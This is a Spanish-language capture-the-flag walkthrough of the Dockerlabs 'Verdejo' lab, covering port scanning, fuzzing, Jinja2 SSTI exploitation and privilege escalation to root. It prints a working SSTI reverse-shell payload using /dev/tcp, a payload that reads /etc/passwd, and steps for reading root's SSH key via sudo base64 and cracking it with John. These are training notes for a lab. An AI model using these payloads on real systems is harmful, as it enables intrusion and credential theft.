Hola otra vez, vamos a resolver otra máquina de [Dockerlabs](https://dockerlabs.es/#/), en este caso la máquina se llama Verdejo y está incluida en la categoría fácil de Dockerlabs de [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg).



---------------------------------------------------------------------------------------------------------------------------------------------------

Sin más que añadir vamos a ello, como siempre empezaremos por descargar la máquina y realizar su instalación, recordad que funcionan mediante docker por lo que estaremos creando un contenedor en nuestra máquina local en el que se almacenará la máquina víctima.



Empezaremos realizando un ping a la máquina para verificar su correcto funcionamiento, al hacerlo vemos que tiene un TTL de 64, lo que significa que la máquina objetivo usa un sistema operativo Linux.



Como vemos, la máquina funciona correctamente y podemos empezar con el proceso de enumeración de la misma, vamos a ello.

# Enumeración

Lo primero que haremos para enumerar esta máquina será realizar un escaneo básico de puertos para identificar cuáles están abiertos.

```sudo nmap -p- --min-rate 5000 172.17.0.2 -Pn -n -oN escaneo```



Encontramos tres puertos abiertos en el sistema, vamos a realizar un escaneo más exhaustivo para tratar de enumerar las versiones de los servicios y lanzar unos scripts básicos de reconocimiento que nos proporciona la propia herrmienta de Nmap.

```sudo nmap -p 22,80,8089 -sCV 172.17.0.2 -Pn -n -oN escaneoSC```



Parece que tanto en el puerto 80 como en el 8089 podemos encontrar servicios web, vamos a enumerar los mismos con detalle para localizar nuestro primer vector de entrada.



En el puerto 80 encontramos una página por defecto, de cualquier forma vamos a tratar de fuzzear este servicio para verificar que no haya directorios o archivos ocultos que noes estemos perdiendo.



Vale, no hay absolutamente nada que nos valga la pena mirar con detenimiento así que vamos a pasar al puerto 8089 a ver si en este caso encontramos algo prometedor.



Bueno parece que esto es algo más interesante, vamos a comenzar a hacer algunas pruebas, aunque antes de esto fuzzearemos también este puerto para asegurarnos de que no haya nada que nos estemos perdiendo.



Genial, parece que en este campo de entrada se produce una reflexión del contenido introducido. Vamos a intentar usar esto a nuestro favor.

# Explotación




Efectivamente y como esperaba esto es vulnerable a XSS reflejado, pero será complicado elevar esto para conseguir una conexión al sistema, vamos a verificar si esta reflexión también es vulnerable a SSTI(Server Side Template Injection).





¡Eso es! La operación se realiza correctamente por lo que es vulnerable, vamos a intentar obtener ejecución remota de código desde aquí y obtener nuestro primer acceso al sistema. En este caso concreto veo dos posibilidades, obtener un acceso leyendo el archivo /etc/passwd y realizando un ataque de fuerza bruta a los usuarios encontrados u obteniendo directamente una shell dentro del sistema. Para este caso y para practicar un poco más estas inyecciones probaré los dos métodos, vamos a ello.

# Método 1

Para el primer método buscaremos una carga maliciosa en PayloadAllTheThings que nos permita listar los usuarios dentro del sistema para luego relizar un ataque de fuerza bruta al puerto 22 ya que vimos en el escaneo inicial que este puerto está disponible. El payload en concreto será ```{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}```



Genial, tenemos el nombre de un usuario disponible en el sistema, vamos a usar hydra para lanzar un atque de fuerza bruta al mismo y tratar de obtener un inicio de sesió exitoso por SSH.



En caso de que la contraseña del usuario se encontrase dentro del diccionario podríamos obtener las credenciales válidas del usuario para conectarnos mediante SSH, vamos a explorar la siguiente opción.

# Método 2

Para este otro método trataremos de introducir una reverse shell aprovechando esta SSTI para recibir una conexión y obtener acceso al sistema. El payload que usaremos para lograr esto será ```{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"').read() }}```







¡Genial! Conseguimos de esta manera nuestro primer acceso y estamos listos para tratar de elevar nuestros privilegios con el objetivo de comprometer el sistema por completo.

# Post-Explotación

Estando dentro del sistema vamos a tratar de enumerar los permisos de nuestro usuario para buscar el vector que nos permitirá convertirnos en el usuario root.



Vale, parece que el usuario puede ejecutar el binario base64 como root sin requerir el uso de contraseña, vamos a buscar la forma de usar esto a nuestro favor.



Parece que podemos usar esto para leer cualquier archivo como root.



Funciona correctamente y podemos leer el archivo /etc/shadow pero no aparece el hash del usuario root, tendremos que buscar otra manera. Al tener disponible el servicio SSH no sería descabellado pensar que podemos leer el id_rsa del usuario root para usar este archivo para iniciar sesión como root mediante este servicio.



Efectivamente, vamos a crear un archivo en nuestra máquina atacante con este contenido.



Parece que necesitamos la clave para poder usar este archivo para conectarnos como root. John The Ripper nos ofrece una funcionalidad para tratar de extraer el hash de esta clave para luego intentar crackearla, vamos a intentarlo.



Con este hash en nuestro poder vamos a intentar crackearlo para obtener el contenido original de esta clave que necesitamos.





¡Genial! Tenemos la clave, vamos a intentar iniciar sesión nuevamente haciendo usándola.



Conseguimos acceder al sistema como root y tenemos el control total sobre el sistema pudiendo dar por concluida la máquina. Espero que os haya gustado mucho y nos vemos en la siguiente. :)


